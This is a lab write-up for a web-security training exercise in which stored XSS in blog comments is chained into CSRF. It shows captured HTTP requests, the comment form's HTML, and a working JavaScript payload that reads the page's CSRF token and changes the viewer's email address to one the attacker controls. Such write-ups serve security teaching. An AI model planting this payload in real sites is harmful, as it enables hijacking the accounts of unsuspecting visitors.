

# Exploiting XSS to perform CSRF

```
❓

This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`
```

```
⚠️

You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.
```

Start off by logging in with the credentials provided `wiener:peter` and change your email to obtain the POST request being sent to the `/my-account/change-email` endpoint. Send this request over to repeater to save for later.

```txt
POST /my-account/change-email HTTP/2
Host: 0a3300cf0434d07b8142701d00fc0097.web-security-academy.net
Cookie: session=wEyaHLMJCB514NZeC6GkxitQLpCnOnZf
Content-Length: 66
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0a3300cf0434d07b8142701d00fc0097.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3300cf0434d07b8142701d00fc0097.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=1mynewemail%40mail.com&csrf=Ruvw07dxuAiUM1HZqm8Tb1Tryn7R3XMv
```

Now let’s head over to one of the blog post, to test the comment section for stored XSS as mentioned in the description. After trying a simple payload `` in the `Comment` input form. As expected, the page is vulnerable to stored XSS.



Now, let’s take a look at the HTML for the input form and see how it’s structured, there is a hidden input field containing the CSRF token.

```javascript
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
        <input required="" type="hidden" name="csrf" value="Ruvw07dxuAiUM1HZqm8Tb1Tryn7R3XMv">
        <input required="" type="hidden" name="postId" value="7">
        <label>Comment:</label>
        <textarea required="" rows="12" cols="300" name="comment"></textarea>
        <label>Name:</label>
        <input required="" type="text" name="name">
        <label>Email:</label>
        <input required="" type="email" name="email">
        <label>Website:</label>
        <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
</form>
```

We can write some JavaScript to dynamically obtain this token, and have a POST request sent to the `/my-account/change-email` endpoint when a user loads the malicious comment on the page, like so:

```javascript
<script>
    window.onload = function() {
        const csrfToken = document.querySelector('input[name="csrf"]').value;
        fetch('/my-account/change-email', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: `email=attacker@mail.com&csrf=${encodeURIComponent(csrfToken)}`
        });
    };
</script>
```
